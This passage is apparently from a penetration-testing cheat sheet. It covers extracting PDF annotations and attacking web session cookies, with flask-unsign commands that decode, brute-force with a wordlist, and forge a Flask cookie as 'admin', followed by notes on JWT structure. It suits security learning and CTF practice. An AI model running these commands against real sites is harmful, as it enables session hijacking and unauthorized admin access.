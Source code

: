 ### Extract annotation
You can extract annotation files with this [script](https://github.com/sawyerf/HackSheet/scripts/get-pdf-annot.py):
```bash
pip3 install pymupdf
python3 script/get-pdf-annot.py -f "<HTTP(S)_URL> OR <PDF_PATH>"
```

# Cookies
> Cookies can be hijack by different way.
> **Sign cookies** can be decode to find vulnerable informations or bruteforce to find secret in order to create your own cookies.
> Other type of cookies need to be steal to hijack session.

## Flask
> Flask cookies are sign cookie so you can decode it or bruteforce the secret.

### Decode
```bash
flask-unsign --decode --cookie 'eyJ1c2VyIjoiYWRtaW4ifQ.Y4za7g.ZHmbIsx0-wdFV_IgyWI7MruY9OY'
```

### Bruteforce
```bash
flask-unsign --wordlist /usr/share/wordlists/rockyou.txt --unsign  --no-literal-eval --cookie 'eyJ1c2VyIjoiYWRtaW4ifQ.Y4za7g.ZHmbIsx0-wdFV_IgyWI7MruY9OY'
```

### Encode
```bash
flask-unsign --sign --cookie "{'user': 'admin'}" --secret 'mySecret'
```

## Json Web Token (JWT)
> A JWT comes in this structure:
> `AAAAAA.BBBBBB.CCCCCC`.
> AAAAAA represents the header, BBBBBB represents the payload while CCCCCC represents the signature.
> 
> The most common algorithms for signing JWTs are:
> - HMAC + SHA256 (HS256)
> - RSASSA-PKCS1-v1_5 + SHA256 (RS256)
> - ECDSA + P-256 + SHA256 ( ES256)
>
> [Source](https://krevetk0.medium.com/brute-forcing-jwt-token-hs256-6f545d24c7c3)

### Encode / Decode
- [JWT.io](https://jwt.io/)
